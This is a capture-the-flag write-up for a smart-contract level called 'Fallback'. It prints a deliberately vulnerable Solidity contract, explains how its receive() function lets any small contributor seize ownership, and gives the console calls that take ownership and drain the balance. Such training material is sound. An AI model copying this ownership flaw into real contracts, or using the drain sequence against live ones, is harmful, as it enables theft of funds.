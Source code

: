 # Fallback
>You will beat this level if
>   1. you claim ownership of the contract
>   2. you reduce its balance to 0

>Things that might help :
*How to send ether when interacting with an ABI
*How to send ether outside of the ABI
*Converting to and from wei/ether units
*Fallback methods

``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}

```

For this challenge, first, we are required to claim the ownership of this contract. Looking at the solidity code given to us, we can see that the code `owner = msg.sender` will be executed in two ways. 
One way is to transfer ether more than the contributions of the owner but that is not possible! (since owner's contribution is fairly large). What we will do is first contribute a small amount of ether and then send ether to this contract so that recieve function gets called and we can claim the ownership.

The receive function is similar to the fallback function. It gets called whenever the contract receives some ether. It is designed specifically to handle incoming ether without the need for a data call.
Executing the approach...

```
>await contract.contribute({value : 4})
```
```
>await contract.sendTransaction({value : 1})
```
```
>await contract.owner()
<'0x532600377959B703AA4AC2c468DeDe8FAA40B576'
```
and so the first step is done! Now don't forget to withdraw ether from this contract.
```
>await contract.withdraw()
```
```
>await getBalance("0xf246A7CD5d85F553ee44E3271Ad8bd1f77434e95")
<'0'
```
Viola! We can now submit the instance.


